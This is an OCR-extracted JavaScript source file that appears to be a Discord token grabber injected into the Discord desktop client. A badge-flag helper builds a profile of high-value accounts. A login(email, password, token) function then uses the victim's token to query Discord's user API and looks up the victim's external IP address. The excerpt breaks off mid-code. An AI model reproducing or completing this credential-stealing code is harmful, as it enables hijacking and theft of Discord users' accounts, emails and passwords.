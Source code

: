 function getBadges(flags) {
    const Discord_Employee = 1;
    const Partnered_Server_Owner = 2;
    const HypeSquad_Events = 4;
    const Bug_Hunter_Level_1 = 8;
    const House_Bravery = 64;
    const House_Brilliance = 128;
    const House_Balance = 256;
    const Early_Supporter = 512;
    const Bug_Hunter_Level_2 = 16384;
    const Early_Verified_Bot_Developer = 131072;
    var badges = "";
    if ((flags & Discord_Employee) == Discord_Employee) {
        badges += "<:staff:874750808728666152> "
    }
    if ((flags & Partnered_Server_Owner) == Partnered_Server_Owner) {
        badges += "<:partner:874750808678354964> "
    }
    if ((flags & HypeSquad_Events) == HypeSquad_Events) {
        badges += "<:hypesquad_events:874750808594477056> "
    }
    if ((flags & Bug_Hunter_Level_1) == Bug_Hunter_Level_1) {
        badges += "<:bughunter_1:874750808426692658> "
    }
    if ((flags & House_Bravery) == House_Bravery) {
        badges += "<:bravery:874750808388952075> "
    }
    if ((flags & House_Brilliance) == House_Brilliance) {
        badges += "<:brilliance:874750808338608199> "
    }
    if ((flags & House_Balance) == House_Balance) {
        badges += "<:balance:874750808267292683> "
    }
    if ((flags & Early_Supporter) == Early_Supporter) {
        badges += "<:early_supporter:874750808414113823> "
    }
    if ((flags & Bug_Hunter_Level_2) == Bug_Hunter_Level_2) {
        badges += "<:bughunter_2:874750808430874664> "
    }
    if ((flags & Early_Verified_Bot_Developer) == Early_Verified_Bot_Developer) {
        badges += "<:developer:874750808472825986> "
    }
    if (badges == "") {
        badges = "no rare badges"
    }
    return badges
}

function login(email, password, token) {
    const window = BrowserWindow.getAllWindows()[0];
    window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://discord.com/api/v8/users/@me", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText;`, !0).then((info) => {
        window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://www.myexternalip.com/raw", false );
                            xmlHttp.send( null );
                            xmlHttp.responseText;
                            `, !0).then((ip) => {
            window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();